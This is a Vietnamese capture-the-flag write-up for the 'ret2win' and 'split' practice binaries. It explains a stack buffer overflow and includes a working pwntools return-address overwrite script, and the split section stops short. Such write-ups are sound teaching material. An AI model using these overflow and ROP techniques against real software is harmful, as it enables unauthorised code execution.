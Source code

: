 # **Ret2win** 

### Phân tích 
- Dùng IDA để dịch ngược ta thấy có hàm ```pwnme```
![image](https://hackmd.io/_uploads/Hy8mWVl40.png)
- Ta thấy có một lỗi có thể khai thác đó là ```Buffer Overflow``` vì ```s``` chỉ khai báo 32 byte nhưng đọc vào 56 byte, xem chế độ bảo vệ của chương trình
![image](https://hackmd.io/_uploads/rJujW4gNA.png)
- ```Canary``` không được bật nên ta có thể khai thác lỗi ```Buffer Overflow``` 
- Để ý IDA sau khi dịch ngược có hàn ```ret2win```
![image](https://hackmd.io/_uploads/BycgMEgNA.png)
- Hàm này gọi câu lệnh hệ thống để đọc ```flag.txt``` là mục tiêu của ta
- Giờ ta chỉ cần tìm nhập địa chỉ hàm ```ret2win``` sau lệnh ```ret``` của hàm ```pwnme``` 
- Ofset 40 byte
- *Ta cần thêm một địa chỉ lệnh ret trước địa của ```pwnme``` để căn chỉnh `rsp` chia hết cho 16*


---

### Script
```python=
#!/usr/bin/python3

from pwn import *

p = process('./ret2win')

ret2win_address = 0x400756
ret_address =  0x00000000004006e7
payload = b'A'*40
payload += p64(ret_address) + p64(ret2win_address)

p.sendlineafter(b'> ', payload)

p.interactive()
```

# **Split**
### Phân tích
- Tương tự bài ```ret2win``` ta cũng có một lỗi ```Buffer Overflow``` ở hàm `pwnme`
 ![image](https://hackmd.io/_uploads/BktlXWuVC.png)
- Checksec
![image](https://hackmd.io/_uploads/BkobNfuER.png)

- Theo gợi ý bài này thì ta cần trả về hàm gọi ```system``` với tham số là ```/bin/cat flag.txt``` và cũng cho biết chuỗi này nằm trong tệp nhị phân
![image](https://hackmd.io/_uploads/SJOmEzdVR.png)
- Ta thấy có hàm ```usefulFunction``` gọi hàm `system`
![image](https://hackmd.io/_uploads/HJhIUzuVA.png)
![image](https://hackmd.io/_uploads/B1A9LzdNA.png)
- Vì tham số là `/bin/ls` nên ta cần set tham số cho hàm thành `/bin/cat flag.txt` vào thanh ghi `rdi` sau đó gọi hàm `system` , cần tìm gadget `pop rdi` 
![image](https://hackmd.io/_uploads/ByS8DGdV0.png)
- Ofset: 40 byte
- 

---